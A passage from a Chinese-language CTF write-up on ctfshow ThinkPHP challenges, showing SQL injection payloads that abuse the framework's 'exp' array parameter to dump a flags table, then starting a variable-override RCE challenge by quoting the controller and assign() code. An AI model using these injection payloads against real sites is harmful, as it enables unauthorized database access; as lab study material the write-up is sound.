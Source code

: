 第二个是回显位，开！！！

```sql
?id[0]=exp&id[1]==0 union select 1,2,3,4%23
?id[0]=exp&id[1]==0 union select 1,group_concat(flag4s),3,4 from flags%23
```

## web 578

> 描述：变量覆盖导致rce

```php
public function index($name='',$from='ctfshow'){
$this->assign($name,$from);
$this->display('index');
}
```

下面要献丑了，过两天一定学vscode或者phpstorm动调

在tp框架里查找`assign()`方法的定义，没什么敏感内容。不过注释里写`模板变量赋值`，往下看有没有模板解析

```php
public function assign($name, $value = '')
    {
        if (is_array($name)) {
            $this->tVar = array_merge($this->tVar, $name);
        } else {
            $this->tVar[$name] = $value;
        }
    }
```

![36](/medias/show-think/36.png)
